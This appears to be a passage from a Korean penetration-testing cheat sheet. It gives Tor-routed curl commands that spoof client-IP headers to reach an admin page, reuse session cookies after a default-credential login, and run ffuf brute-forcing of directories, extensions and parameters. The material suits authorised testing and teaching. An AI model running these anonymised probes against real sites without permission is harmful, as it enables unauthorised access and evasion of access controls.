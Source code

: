 ##### 고급 헤더 조작 및 우회 기법

```bash
# 다중 헤더로 IP 우회 시도
torsocks curl -i https://target.com/admin/ \
  -H "X-Forwarded-For: 127.0.0.1" \
  -H "X-Real-IP: 127.0.0.1" \
  -H "X-Remote-IP: 127.0.0.1" \
  -H "X-Remote-Addr: 127.0.0.1" \
  -H "X-Client-IP: 127.0.0.1" \
  -H "X-Originating-IP: 127.0.0.1" \
  -H "CF-Connecting-IP: 127.0.0.1" \
  -H "True-Client-IP: 127.0.0.1"
```

##### 세션 관리 및 쿠키 처리

```bash
# 쿠키 저장/로드
torsocks curl -i -c cookies.txt https://target.com/login \
  -d "username=admin&password=123"

torsocks curl -i -b cookies.txt https://target.com/dashboard

# 세션 유지 테스트
torsocks curl -i -b cookies.txt https://target.com/sensitive \
  -H "Referer: https://target.com/dashboard"
```

#### 🔍 **ffuf** - 웹 디렉토리/파일 브루트포싱

##### 기본 디렉토리 스캔

```bash
# 기본 디렉토리 브루트포싱
torsocks ffuf -u http://target.com/FUZZ \
  -w /usr/share/wordlists/dirb/common.txt \
  -fs 1234 -fc 404 -t 10

# 파일 확장자 브루트포싱
torsocks ffuf -u http://target.com/FUZZ \
  -w /usr/share/wordlists/dirb/common.txt \
  -e .php,.html,.txt,.js,.json,.xml \
  -fs 1234 -t 5
```

##### 매개변수 브루트포싱

```bash
# GET 매개변수 발견
torsocks ffuf -u "http://target.com/search.php?FUZZ=test" \
  -w /usr/share/wordlists/burp-parameter-names.txt \
  -fs 1234 -mc 200 -t 10

# POST 매개변수 발견
torsocks ffuf -u http://target.com/login.php \
  -w /usr/share/wordlists/burp-parameter-names.txt \
  -X POST -d "FUZZ=test" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -fs 1234 -t 5
```
